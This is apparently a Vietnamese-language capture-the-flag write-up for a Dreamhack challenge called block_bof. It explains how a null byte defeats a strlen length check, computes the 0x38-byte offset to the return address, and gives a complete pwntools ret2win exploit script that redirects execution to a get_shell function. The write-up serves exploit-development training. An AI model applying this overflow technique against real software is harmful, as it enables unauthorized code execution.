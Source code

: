 # Decription
[![](images/decription.png)](https://dreamhack.io/wargame/challenges/1860)
# Source

![](images/main.png)
![](images/check.png)
![](images/win.png)


# Problem

Trong hàm main v5 khai báo với kích thước là 48 bytes nhưng scanf lại không kiểm soát đầu vào.

-> bof

Hàm check có strlen() kiểm tra số lượng đầu vào. Nếu > 15 thì exit().


Nhưng hàm strlen() chỉ kiểm tra đến khi nào gặp bytes null sẽ dừng lại -> Vẫn có thể overflow.

Mục tiêu là ret2win nên cần tính offset đên ret.

# Solve

Ta có thể dùng gdb để tính hoặc tính luôn trên ida.

```c
-0000000000000030     _BYTE var_30;
-000000000000002F     // padding byte
-000000000000002E     // padding byte
-000000000000002D     // padding byte
-000000000000002C     // padding byte
-000000000000002B     // padding byte
-000000000000002A     // padding byte
-0000000000000029     // padding byte
-0000000000000028     // padding byte
-0000000000000027     // padding byte
-0000000000000026     // padding byte
-0000000000000025     // padding byte
-0000000000000024     // padding byte
-0000000000000023     // padding byte
-0000000000000022     // padding byte
-0000000000000021     // padding byte
-0000000000000020     // padding byte
-000000000000001F     // padding byte
-000000000000001E     // padding byte
-000000000000001D     // padding byte
-000000000000001C     // padding byte
-000000000000001B     // padding byte
-000000000000001A     // padding byte
-0000000000000019     // padding byte
-0000000000000018     // padding byte
-0000000000000017     // padding byte
-0000000000000016     // padding byte
-0000000000000015     // padding byte
-0000000000000014     // padding byte
-0000000000000013     // padding byte
-0000000000000012     // padding byte
-0000000000000011     // padding byte
-0000000000000010     // padding byte
-000000000000000F     // padding byte
-000000000000000E     // padding byte
-000000000000000D     // padding byte
-000000000000000C     // padding byte
-000000000000000B     // padding byte
-000000000000000A     // padding byte
-0000000000000009     // padding byte
-0000000000000008     // padding byte
-0000000000000007     // padding byte
-0000000000000006     // padding byte
-0000000000000005     // padding byte
-0000000000000004     // padding byte
-0000000000000003     // padding byte
-0000000000000002     // padding byte
-0000000000000001     // padding byte
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
+0000000000000010
+0000000000000010 // end of stack variables
```
var_30 đến ret là 0x38 bytes

```c
payload = b'a' *15 + b'\x00'
payload = payload.ljust(56, b'B')
payload += p64(0x0000000000401273)  //get_shell address
```
![](images/flag)

# Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('block_bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b* 0x0000000000401388
b* 0x00000000004012ab
b* 0x00000000004013bd
        c
        ''')
        input()


if args.REMOTE:
    p = remote('host3.dreamhack.games', 19236)
else:
    p = process([exe.path])
# GDB()

payload = b'a' *15 + b'\x00'
payload = payload.ljust(56, b'B')
payload += p64(0x0000000000401273)
sla(b'name??\n', b'\x00'*10)
sla(b'commnet : ', payload)
p.interactive()

```
